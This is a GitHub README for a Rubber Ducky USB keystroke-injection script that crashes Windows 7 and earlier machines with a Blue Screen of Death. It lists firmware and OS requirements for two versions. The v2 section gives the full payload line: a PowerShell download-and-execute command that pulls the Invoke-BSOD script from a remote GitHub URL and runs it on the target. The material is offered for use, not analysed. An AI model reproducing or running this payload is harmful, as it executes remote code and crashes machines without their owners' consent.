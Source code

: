 # BQOD-tHE_bLUE_qUACK_oF-dEATH-
A script for Rubber Ducky which uses the Invoke-bsod powershell technique to trigger a Blue Screen of Death

</BR>

</BR>


https://github.com/peewpw/Invoke-BSOD


</BR>

![Alt text](https://github.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/blob/master/img/DUCKY-KILLERS.jpg)


</BR>

<h2>v1</h2>

</br>

<h3> Requirements</h3>

</br>

-Twin Duck Firmware

-Rubbe Ducky Must be Named "_"

<h3>Os Compatibility</h3>
  
</BR>

-Windows 7 or Earlier

</BR>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/master/img/BQOD.JPG)

</BR>

<h2>v2</h2>

</br>

<h3>Requirements</h3>

</br>

-None

</BR>

<h3>Os Compatibility</h3>

</BR>

-Windows 7 or Earlier

</BR>

STRING powershell IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD

</BR>
